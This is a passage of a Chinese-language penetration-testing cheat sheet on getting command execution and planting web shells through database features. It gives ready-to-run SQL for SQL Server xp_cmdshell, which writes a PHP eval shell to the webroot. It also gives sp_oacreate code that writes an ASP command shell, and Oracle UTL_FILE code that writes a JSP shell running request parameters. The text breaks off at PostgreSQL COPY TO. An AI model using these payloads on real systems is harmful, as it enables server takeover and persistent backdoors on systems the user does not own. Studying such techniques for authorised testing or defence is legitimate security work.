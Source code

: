         ![image.png](image.png)
        
        过程复杂建议使用工具：[https://github.com/AgeloVito/MDAT](https://github.com/AgeloVito/MDAT)
        
2. SQL server
    1. xp_cmdshell
        
        条件：默认关闭，需要sysadmin权限开启
        
        ```java
        EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
        EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
        EXEC xp_cmdshell 'whoami';
        -- 一键写入Webshell
        EXEC xp_cmdshell 'echo ^<?php @eval($_POST[cmd])?^> > C:\inetpub\wwwroot\shell.php';
        ```
        
    2. sp_oacreate
        
        原理：利用OLE自动化存储过程 (`sp_oacreate`) 调用文件系统对象来写文件。
        
        条件：需要先启用`Ole Automation Procedures`
        
        ```java
        DECLARE @o INT, @f INT, @t INT, @ret INT;
        EXEC sp_oacreate 'Scripting.FileSystemObject', @o OUT;
        EXEC sp_oamethod @o, 'CreateTextFile', @f OUT, 'C:\www\shell.asp', 1;
        EXEC sp_oamethod @f, 'Write', @ret OUT, '<% ExecuteGlobal(Request("cmd")) %>';
        EXEC sp_oamethod @f, 'Close';
        EXEC sp_oadestroy @f; EXEC sp_oadestroy @o;
        ```
        
3. Oracle
    1. UTL_FILE
    **原理**：使用 `UTL_FILE` 包向服务器文件系统写文件。
        
        要求：需要预先配置允许写入的目录对象，并且用户有对该目录对象的写权限。
        
        ```java
        DECLARE
          f UTL_FILE.FILE_TYPE;
        BEGIN
          f := UTL_FILE.FOPEN('WEBDIR', 'shell.jsp', 'W'); -- WEBDIR为目录对象
          UTL_FILE.PUT_LINE(f, '<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>');
          UTL_FILE.FCLOSE(f);
        END;
        ```
        
    2. Java代码执行
        
        要求：用户具有`CREATE SESSION` 的权限
        
        过程复杂参考：[https://hughlhz.github.io/2020/07/15/oracle_exec/](https://hughlhz.github.io/2020/07/15/oracle_exec/)
        
4. PostgreSQL
    1. COPY TO
        